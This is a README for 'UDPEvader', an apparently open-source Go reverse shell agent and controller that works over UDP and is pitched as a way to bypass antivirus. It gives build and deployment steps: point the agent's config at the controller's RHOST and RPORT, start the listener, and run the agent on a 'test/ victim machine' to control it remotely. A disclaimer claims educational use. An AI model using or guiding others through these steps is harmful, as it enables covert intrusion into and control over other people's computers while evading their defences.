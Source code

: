 # UDPEvader
UDPEvader is a platform independent custom UDP-based reverse shell agent and controller, designed to allow users to  assist in assessing and potentially bypassing antivirus software. Allows to dynamically set their custom port and listener prompts.

## Features

- UDP-based reverse shell agent and controller
- Customizable listener prompts
- Antivirus assessment
- Can be used as a potential bypass technique

## Usage

1. Clone the UDPEvader repository:  

   gh repo clone diljith369/UDPEvader

2. Compile and build the UDPEvader agent and controller:
   cd UDPEvader/src
   Update &agentprops.UDPShellProps{
		RemoteServer: "RHOST",
		UDPPort:      "RPORT",
	} in udpagent.go file, replace RHOST and RPORT with controller server IP and Port, then build agent 
   go build udpagent.go   
   go build udplistener.go

3. Start the listener :
   udplistener.exe --lport <<LPORT>> --prompt <<YourPrompt>> or 
   udplistener.exe (In this case LPORT will be 8080 and prompt will be <<@dcrypT0R~UDP>>)

4. Run the agent on your test/ victim machine , once the agent is connected, you can interact with the target machine   through the controller's listener prompts.

5. Assess and test your antivirus or explore potential bypass techniques using the UDPEvader agent.

## Disclaimer
UDPEvader is intended for educational and assessment purposes only. Misuse of this tool may violate applicable laws and regulations. Use it responsibly and at your own risk.

## Suggestions
If you find any issues or have suggestions for improvements, feel free to open an issue.
## Built With
Go Lang
## Author
Initial work - (https://github.com/diljith369)